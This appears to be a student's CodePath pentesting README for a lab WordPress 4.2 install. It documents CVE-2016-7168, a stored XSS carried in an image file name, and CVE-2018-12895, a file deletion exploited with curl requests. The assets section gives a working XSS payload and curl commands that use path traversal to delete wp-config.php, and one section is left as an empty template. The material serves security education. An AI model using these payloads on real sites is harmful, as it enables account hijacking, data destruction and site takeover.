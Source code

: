 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 Authenticated Stored XSS Via Image File Name
  - [ ] Summary: 
    - Vulnerability types: XSS (stored), Social Engineering
    - Tested in version: 4.2
    - Fixed in version: 4.2.10
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln1.gif
  - [ ] Steps to recreate: Only tested in Linux. Use social engineering to provide image file to admin that contains malicious HTML/script in the image name (such as the example in Assets [1.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#11-example-malicious-image-file-name-vulnimg-srca-onerroralertdocumentcookiejpg)) and get admin to upload it to the wordpress site. When users view the page containing the uploaded attachment, the HTML/script stored in the image will execute. Possibly restricted to Linux and Mac OS as Windows disallows characters such as "<" in file names.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0
    - [wpscan page](https://wpscan.com/vulnerability/e84eaf3f-677a-465a-8f96-ea4cf074c980)
### 2. CVE-2018-12895 Authenticated Arbitrary File Deletion
  - [ ] Summary: 
    - Vulnerability types: Insecure Direct Object Reference, Improper Authentication (leads to arbitrary file deletion)
    - Tested in version: 4.2
    - Fixed in version: 4.2.21
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln2.gif
  - [ ] Steps to recreate: As a user with Author privileges, upload a image. Then navigate to the page to edit the image ```http://192.168.33.10/wp-admin/post.php?post=17&action=edit```(replace ?post parameter with the numerical id of the image that was uploaded, can be seen in the URL as the ?item parameter when viewing the image from the media tab). On this page, copy the cookies and the wpnonce value from the post form in the HTML into the appropriate places in the curl command in Assets [2.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#21-example-command-to-set-the-image-thumbnail-as-the-file-to-be-maliciously-deleted-in-this-case-deleting-the-wp-configphp-file-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actioneditattachment_wpnonced4ea7fca1dthumbwp-configphp). Send this curl command, then find the wpnonce value from the file deletion form and place it into the curl command in Assets [2.2](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#22-curl-request-to-delete-image-and-newly-associated-thumbnail-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actiondelete_wpnonce593d226e9c). When this command is sent it will delete the file that was associated with the image file as its thumbnail because Wordpress fails to make the appropriate checks if this file actually is the image thumbnail and should be deleted. In this example specifically, deleting wp-config.php can allow a user to escalate privileges as Wordpress mistakenly thinks the site has not been configured at all due to the missing config file, and it will prompt the user to create new admin credentials.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    - [wpscan page](https://wpscan.com/vulnerability/42ab2bd9-bbb1-4f25-a632-1811c5130bb4)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

### [1.1] (example malicious image file name): ```vuln\<img src=a onerror=alert(document.cookie)>.jpg```
### [2.1] (example command to set the image thumbnail as the file to be maliciously deleted, in this case deleting the wp-config.php file): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=editattachment&_wpnonce=d4ea7fca1d&thumb=../../../../wp-config.php'```
### [2.2] (curl request to delete image and newly associated "thumbnail"): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=delete&_wpnonce=593d226e9c'```

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with ScreenToGif.

## Notes

None, although of course it was necessary to set up a new Wordpress site after deleting the wp-config.php file as a part of demonstrating vulnerability 2 (Authenticated Arbitrary File Deletion).

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
